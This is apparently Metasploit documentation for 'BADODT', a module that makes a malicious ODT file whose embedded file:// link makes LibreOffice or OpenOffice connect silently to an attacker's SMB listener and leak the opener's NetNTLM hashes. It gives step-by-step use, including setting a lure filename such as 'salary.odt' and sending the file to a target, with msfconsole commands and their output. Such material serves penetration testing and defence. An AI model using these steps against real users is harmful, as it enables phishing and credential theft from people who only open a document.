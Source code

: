 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

LibreOffice 6.03 /Apache OpenOffice 4.1.5
https://www.libreoffice.org/download/download/
https://www.openoffice.org/download/

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/odt/badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

**CREATOR**
This option allows you to customise the document author for the new document.
This can be changed using set CREATOR New_User

**FILENAME**
This option allows you to customise the generated filename.
This can be changed using set FILENAME salary.odt

**LHOST**
This option allows you to set the IP address of the SMB Listener that the .odt document points to
This can be changed using set LISTENER 192.168.1.25

## Scenarios

LibreOffice 6.03 /Apache OpenOffice 4.1.5 and any version of Microsoft Windows.

  ```
  Console output
  ```

  ```
  msf > use auxiliary/odt/badodt
  msf auxiliary(odt/badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf auxiliary(odt/badodt) > set LHOST 192.168.1.25
  LHOST => 192.168.1.25
  msf auxiliary(odt/badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf auxiliary(odt/badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(odt/badodt) > 
  ```
